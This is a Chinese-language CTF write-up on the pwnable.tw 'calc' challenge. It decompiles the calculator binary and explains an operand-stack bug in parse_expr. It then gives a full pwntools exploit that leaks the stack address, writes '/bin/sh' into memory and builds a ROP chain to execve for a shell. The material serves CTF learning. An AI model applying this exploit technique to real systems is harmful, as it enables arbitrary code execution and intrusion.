

## 保护等级

首先检查安全保护等级：

```bash
$ checksec calc
[*] '/media/data/program/ctf/pwnable/calc/calc'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

程序开启了 `NX` 保护，不能执行栈代码。我们再看程序的链接方式：

```bash
$ objdump -R calc

calc：     文件格式 elf32-i386

objdump: calc：不是动态对象
objdump: calc: invalid operation
```

程序是静态链接。

## 程序逻辑

### `main`

在 `gdb` 中我们可以看到这个程序的逻辑结构过于复杂，我们使用 `Ida Pro` 打开。首先看 `main` 函数，可以在 `Ida Pro` 中查看其伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, timeout);
  alarm(60);
  puts("=== Welcome to SECPROG calculator ===");
  fflush(stdout);
  calc();
  return puts("Merry Christmas!");
}
```

### `calc`

显然 `calc` 是这个程序的主函数：

```c
unsigned int calc()
{
  int buffer_len; // [esp+18h] [ebp-5A0h]
  int buffer[100]; // [esp+1Ch] [ebp-59Ch]
  char expr; // [esp+1ACh] [ebp-40Ch]
  unsigned int canary; // [esp+5ACh] [ebp-Ch]

  canary = __readgsdword(0x14u);
  while ( 1 )
  {
    bzero(&expr, 0x400u);
    if ( !get_expr((int)&expr, 1024) )
      break;
    init_pool(&buffer_len);
    if ( parse_expr((int)&expr, &buffer_len) )
    {
      printf((const char *)&unk_80BF804, buffer[buffer_len - 1]);
      fflush(stdout);
    }
  }
  return __readgsdword(0x14u) ^ canary;
}
```

并且可以查看它的调用栈：


我们逐个分析这个伪代码的功能：

1. `v4 = __readgsdword(0x14u)` 这个从 [MSDN](<https://docs.microsoft.com/en-us/cpp/intrinsics/readgsbyte-readgsdword-readgsqword-readgsword?view=vs-2019>) 中可以找到函数的功能，它从与 `gs` 段起始位置相对 `0x14u` 的位置中取出一个数字并赋值给 `v4`。它应该是实现了一个 `Canary` 的功能。
2. 循环中第一个语句 `bzero(%ebp - 0x40c, 0x400)` 仔细查看了其中的函数调用，之后又以无参数形式调用了 `bzero()` 的一个重载，不太看得懂。我们猜测是初始化的；
3. `get_expr(%ebp - 0x40c, 1024)` 应该是从我们的标准输入读取表达式的函数，我们暂时不研究其逻辑；
4. `init_pool(%ebp - 0x5a0);` 这个函数的作用是，将传入的指针作为一个四字节的指针，并且将这个地址之后的的 100 个位置全部赋值为 0。是一个初始化 int 数组的函数。
5. `parse_expr(%ebp -0x40c, %ebp - 0x5a0)` 应该是将输入解析到 `%ebp - 0x5a0` 这个地方做存储结果的函数，我们暂时不研究其逻辑；
6. 如果解析成功会调用 `printf((const char *)&unk_80BF804, v2[v1 - 1]);`，其中 `unk_80BF804` 的内容就是 `%d`，`v2[v1 - 1]` 应该是结果存储的位置（由它们的相对位置我们可以分析知道，`v2` 是一个字符串，`v1` 应该是一个标记结果与 `v2` 起始位置相对位置的整数）。

逻辑清晰了，我们接着分析取表达式和解析表达式这两个关键的函数。

### `get_expr`

首先是 `get_expr` 读取表达式的函数，我重命名了其中的变量，逻辑非常地清晰：

```c
int __cdecl get_expr(int dest, int max_len)
{
  int chr_pos; // eax
  char input_chr; // [esp+1Bh] [ebp-Dh]
  int cur_len; // [esp+1Ch] [ebp-Ch]

  cur_len = 0;
  while ( cur_len < max_len && read(0, &input_chr, 1) != -1 && input_chr != '\n' )
  {
    if ( input_chr == '+'
      || input_chr == '-'
      || input_chr == '*'
      || input_chr == '/'
      || input_chr == '%'
      || input_chr > 47 && input_chr <= 57 )
    {
      chr_pos = cur_len++;
      *(_BYTE *)(dest + chr_pos) = input_chr;
    }
  }
  *(_BYTE *)(cur_len + dest) = 0;
  return cur_len;
}
```

### `eval`

在讨论函数 `parse_expr` 之前，我们先分析在它调用最频繁的函数 `eval`：

```c
int *__cdecl eval(int *num_stack, char operator)
{
    int *result; // eax

    if (operator== '+')
    {
        num_stack[*num_stack - 1] += num_stack[*num_stack];
    }
    else if (operator> 43)
    {
        if (operator== '-')
        {
            num_stack[*num_stack - 1] -= num_stack[*num_stack];
        }
        else if (operator== '/')
        {
            num_stack[*num_stack - 1] /= num_stack[*num_stack];
        }
    }
    else if (operator== '*')
    {
        num_stack[*num_stack - 1] *= num_stack[*num_stack];
    }
    result = num_stack;
    --*num_stack;
    return result;
}
```

简单地说这个函数做了这样一件事情：

1. 它传入一个数字栈和一个字符型的操作符
2. 它弹出了栈顶的两个元素，对栈顶的这两个元素进行这个操作符所指定的运算
3. 将这个运算结果压栈

### `parse_expr`

然后我们分析 `parse_expr`，漏洞应该就出现在这里。我通读了伪代码之后重命名了一些局部变量，并且对照汇编代码解决了一些不必要的转换之后得到以下的伪代码：

```c
signed int __cdecl parse_expr(int src_str, _DWORD *dest)
{
    int dest_len;        // [esp+18h] [ebp-90h]
    char *src_str_cpy;   // [esp+1Ch] [ecp-8Ch]
    int numstr_bgn;      // [esp+20h] [ebp-88h]
    int i;               // [esp+24h] [ebp-84h]
    int stack_top;       // [esp+28h] [ebp-80h]
    int numstr_len;      // [esp+2Ch] [ebp-7Ch]
    char *numstr;        // [esp+30h] [ebp-78h]
    int number;          // [esp+34h] [ebp-74h]
    char stack[100];     // [esp+38h] [ebp-70h]
    unsigned int canary; // [esp+9Ch] [ebp-Ch]

    canary = __readgsdword(0x14u);
    numstr_bgn = src_str;
    stack_top = 0;
    bzero(stack, 0x64u);
    for (i = 0;; ++i)
    {
        // if operator
        if ((unsigned int)(*(char *)(i + src_str) - 48) > 9)
        {
            numstr_len = i + src_str - numstr_bgn;
            numstr = (char *)malloc(numstr_len + 1);
            memcpy(numstr, numstr_bgn, numstr_len);
            numstr[numstr_len] = 0;
            if (!strcmp(numstr, "0"))
            {
                puts("prevent division by zero");
                fflush(stdout);
                return 0;
            }
            number = atoi(numstr);
            if (number > 0)
            {
                dest_len = (*dest)++;
                dest[dest_len + 1] = number;
            }
            if (*(_BYTE *)(i + src_str) && (unsigned int)(*(char *)(i + 1 + src_str) - 48) > 9)
            {
                puts("expression error!");
                fflush(stdout);
                return 0;
            }
            numstr_bgn = i + 1 + src_str;
            if (stack[stack_top])
            {
                switch (*(char *)(i + src_str))
                {
                case '%':
                case '*':
                case '/':
                    // */%: 栈顶是加减法则将操作符入栈，否则调用 eval 后覆盖栈顶
                    if (stack[stack_top] != '+' && stack[stack_top] != '-')
                    {
                        eval(dest, stack[stack_top]);
                        stack[stack_top] = *(_BYTE *)(i + src_str);
                    }
                    else
                    {
                        stack[++stack_top] = *(_BYTE *)(i + src_str);
                    }
                    break;
                case '+':
                case '-':
                    // +-: 调用 eval 后覆盖栈顶
                    eval(dest, stack[stack_top]);
                    stack[stack_top] = *(_BYTE *)(i + src_str);
                    break;
                default:
                    eval(dest, stack[stack_top--]);
                    break;
                }
            }
            else
            {
                stack[stack_top] = *(_BYTE *)(i + src_str);
            }
            if (!*(_BYTE *)(i + src_str))
                break;
        }
    }
    while (stack_top >= 0)
        eval(dest, stack[stack_top--]);
    return 1;
}
```

这个解析运算符的流程大致可以从 `数字栈 num_stack` 与 `操作符栈 op_stack` 这两个栈之间的运算展开。我觉得有必要用一个状态转换图来解释这个函数的工作流程，我们用操作符栈的栈顶来确定三种状态：




1. 上图中：方形表示状态，矩形表示执行的操作，箭头上的字符表示状态转移条件；
2. 上图中：`State1` 表示操作符栈顶为空，`State2` 表示操作符栈顶不是 `+-` 号，`State3` 表示操作符栈顶是加减号。很显然，初始状态是 `State1`；
3. 程序的逻辑保证了：任何一个操作符后一个字符不会是操作符，除号的第二个操作符不能是 `"0"`

## 漏洞

### 发现

经过上面的分析，`parse_expr` 这个函数我主要发现了两个漏洞：

1. 程序在排除被除数不为 0 的条件时，用的判断是被除数字符串不等于 `"0"`；对于这个漏洞，我们可以通过输入 `"00"` 等方式让程序产生除零操作。但是并不知道这个漏洞如何利用；
2. 程序在执行 `eval` 时，必须要满足数字栈中存在大于两个的数字，但是以下原因会导致这个条件并不成立：
   1. 输入字符串的第一个字符为操作符；
   2. 某次的输入数字为 0，这个数字则不会被程序压栈；

下面我们尝试利用第二条的第一个漏洞，就可以改变数字栈的高度，从而达到修改任意地址的目的。

### 利用

我们利用的基本思路是：先泄露栈地址，然后注入字符串 `/bin/sh`，最后构造一个这样的栈：

```
stack-top	|ad1	|0xb	|ad2	|0x0	|adstr	|ad3	|0x0	|ad4
```

其中 `ad1`、`ad2`、`ad3`、`ad4` 是三个通过 `ROP` 技术的到的三个地址，它们分别执行：

```assembly
ad1:	pop %eax; ret;
ad2:	pop %ecx; pop %ebx; ret;
ad3:	pop %edx; ret;
ad4:	int 80h;
```

而其中的 `adstr` 则是之前注入的 `/bin/sh` 的地址。构造了如下的 `exp`：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./calc'])
        else:
            self.p = remote("chall.pwnable.tw", 10100)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript="b *get_expr")

    def leak_ebp(self):
        """
        payload: *361
        """
        offset = 0x5a0 / 4 + 1
        self.payload = "*%d\n" % (offset)
        self.p.send(self.payload)

        self.main_ebp = int(self.p.recvline(), 10) & 0xffffffff
        self.calc_ebp = self.main_ebp - 0x20
        self.parse_expr_ebp = self.calc_ebp - 0x5c0
        print("main $ebp:" + hex(self.main_ebp))
        print("calc $ebp:" + hex(self.calc_ebp))
        print("parse_ebp $ebp:" + hex(self.parse_expr_ebp))

    def write_binsh(self):
        """
        payload: *701+1845554944+6845231
        """
        binsh = [u32("/bin"), u32("/sh\0")] # 0x6e69622f, 0x0068732f
        sent_number = [binsh[0]-binsh[1], binsh[1]]
        self.payload = "*701+%d+%d\n" % (sent_number[0], sent_number[1])
        self.p.send(self.payload)
        assert p32(int(self.p.recvline(), 10)) == "/bin"
        
        self.binsh_addr = self.calc_ebp - 0x5a0 + 700 * 4
        print("write '/bin/sh': %s" % hex(self.binsh_addr) )

    def ROP(self):
        addr1 = 0x0805c34b      # pop eax; ret
        addr2 = 0x080701d1      # pop ecx; pop ebx; ret
        addr3 = 0x080701aa      # pop edx; ret
        addr4 = 0x08049a21      # int 0x80
        stack = [addr1, 0xb, addr2, 0x0, -0x100000000 + self.binsh_addr, addr3, 0x0, addr4]
        n = [ stack[i+1] + stack[i] for i in range(7)] + [ stack[7] ]
        assert n[3] < 0
        self.payload = "*361-1*%d-1*%d-1*%d-1*%d+%d+%d" % \
            (n[0], n[1], n[2], -n[3], 0x80000000+n[3], 0x80000000+n[3])
        if n[4] > 0:
            self.payload += "-1*%d" % n[4]
        else:
            self.payload += "-1*%d+%d+%d" % (-n[4], 0x80000000 + n[4], 0x80000000 + n[4] )
        self.payload += "-1*%d-1*%d-1*%d\n" % (n[5], n[6], n[7])
        self.p.send(self.payload)
        self.p.recvline()
    
    def get_shell(self):
        self.p.send("illegal")
        self.p.interactive()

    def pwn(self):
        print("----------begin-----------")
        self.p.recvline()
        self.leak_ebp()
        self.write_binsh()
        self.ROP()
        self.get_shell()
        self.p.wait_for_close()
        print("-----------end------------")


if __name__ == "__main__":
    s = Challenge(True)
    s.pwn()
```

写 `exp` 最后 debug 的时候有以下的几个坑点：

1. 我们利用乘法优先级比较高的特性，可以构造 `1*addr` 这样的表达式将上面的地址全部按顺序压入栈中。但是问题是 `adstr` 是一个负数，用这种方式压栈会出现表达式错误（`*-` 两个运算符同时出现）。
2. `/bin/sh` 这个字符串不能写在 `calc` 这个函数的局部变量区，因为每次循环时会被初始化。


